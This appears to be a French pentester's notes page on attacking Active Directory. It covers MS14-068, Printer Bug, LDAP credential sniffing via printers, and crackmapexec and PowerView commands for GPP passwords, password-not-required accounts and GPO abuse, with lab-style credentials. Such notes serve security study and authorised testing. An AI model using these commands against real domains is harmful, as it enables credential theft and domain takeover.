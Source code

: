 ```yaml
---
public: true # set to true to make the article publishable
---
```

### Printer Bug

<https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn>

### MS14-068

Possibilité de passer de simple user à administrateur du domaine grace à cette vulnérabilité.

Outil permettant de l'exploiter <https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek>

Box HTB qui illustre cette technique :  [Mantis](https://app.hackthebox.com/machines/98)

### Sniffer des identifiants LDAP

On peut parfois accéder à des équipements ayant une configuration ldap (par exemple un photocopieur avec la fonction scan to mail.

Dans ce cas, on peut tenter de modifier l'IP du serveur LDAP vers notre propre machine et "tester" la connection pour intercepter les identifiants / mot de passe.

)

### Mot de passe non requis (PASSWORD NOT REQ)

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --password-not-required
```

## Identifiants dans les partages SMB

### Mots de passes de GPP (Stratégies de groupes de préférence)

```shell-session
crackmapexec smb -L | grep gpp
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_password
Get-GPPAutologon.ps1 (Powersploit)
```

### ASRepRoasting

[[ASREPRoasting]]

### GPO Abuse

#### Enumeration

[group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastle](https://www.pingcastle.com/),

[Get-DomainGPO](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainGPO) (poweview)

```powershell
Get-DomainGPO | Select DisplayName
Get-GPO -All | Select DisplayName

$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}


```

### Exploitation

 [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
